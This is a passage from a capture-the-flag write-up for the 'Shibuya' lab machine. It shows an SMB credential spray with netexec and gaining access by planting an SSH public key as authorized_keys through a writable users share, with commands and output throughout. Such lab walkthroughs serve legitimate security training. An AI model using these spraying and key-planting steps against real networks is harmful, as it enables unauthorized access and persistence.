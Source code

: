 The userlist we saved is in single quotes and JSON format. We convert it to double quotes and write it as a wordlist, one entry per line. The issue here is that some names contain single quotes. We automatically convert those to double quotes, which is something we didn’t want, and unfortunately, I had to manually fix that. \
For example, O'Donnel --> O"Donnel.

```bash
➜  Shibuya netexec smb shibuya.vl -u userslist.txt -H <REDACTED>--continue-on-success | grep +
SMB                      10.10.88.177    445    AWSJPDC0522      [+] shibuya.vl\Simon.Watson:<REDACTED>
```

Great, we found the simon.watson user. Then, we connect via SMB, create a `.ssh` folder in the `users` share, place the pub key there, and gain initial access.

```bash
➜  Shibuya ssh-keygen -t rsa -b 4096 -f id_rsa_custom
Generating public/private rsa key pair.
Enter passphrase for "id_rsa_custom" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa_custom
Your public key has been saved in id_rsa_custom.pub
The key fingerprint is:
SHA256:rqj+0/IHufWFejbDxbr9X2qUqPWG5sXiWdML/xqacd0 user@kali
The key's randomart image is:
+---[RSA 4096]----+
|                 |
|                 |
|                 |
|                 |
|       .S  o . . |
|      o.. . *.oo.|
|     . +.+ *o=B E|
|    o.o.o XooX*+o|
| .ooo+o. o.*B++=+|
+----[SHA256]-----+
```

```bash
➜  Shibuya mv id_rsa_custom.pub authorized_keys
```

```bash
➜  Shibuya ssh -i id_rsa_custom simon.watson@shibuya.vl
The authenticity of host 'shibuya.vl (10.10.88.177)' can't be established.
ED25519 key fingerprint is SHA256:SiXhmjQMScl7eQgH4/uyVXXTsCHM6diy6fh80l4zzJQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shibuya.vl' (ED25519) to the list of known hosts.

Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

shibuya\simon.watson@AWSJPDC0522 C:\Users\simon.watson>
```
